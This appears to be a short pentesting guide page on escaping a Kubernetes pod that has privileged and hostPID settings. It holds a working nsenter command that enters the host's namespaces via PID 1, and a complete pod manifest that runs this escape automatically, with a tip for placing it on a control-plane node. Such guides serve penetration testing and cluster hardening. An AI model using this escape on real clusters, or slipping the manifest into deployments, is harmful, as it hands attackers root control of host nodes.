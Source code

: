 # Pod Escape Privileges

{{#include ../../../banners/hacktricks-training.md}}

## Privileged and hostPID

With these privileges you will have **access to the hosts processes** and **enough privileges to enter inside the namespace of one of the host processes**.\
Note that you can potentially not need privileged but just some capabilities and other potential defenses bypasses (like apparmor and/or seccomp).

Just executing something like the following will allow you to escape from the pod:

```bash
nsenter --target 1 --mount --uts --ipc --net --pid -- bash
```

Configuration example:

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: priv-and-hostpid-exec-pod
  labels:
    app: pentest
spec:
  hostPID: true
  containers:
    - name: priv-and-hostpid-pod
      image: ubuntu
      tty: true
      securityContext:
        privileged: true
      command:
        [
          "nsenter",
          "--target",
          "1",
          "--mount",
          "--uts",
          "--ipc",
          "--net",
          "--pid",
          "--",
          "bash",
        ]
  #nodeName: k8s-control-plane-node # Force your pod to run on the control-plane node by uncommenting this line and changing to a control-plane node name
```

{{#include ../../../banners/hacktricks-training.md}}




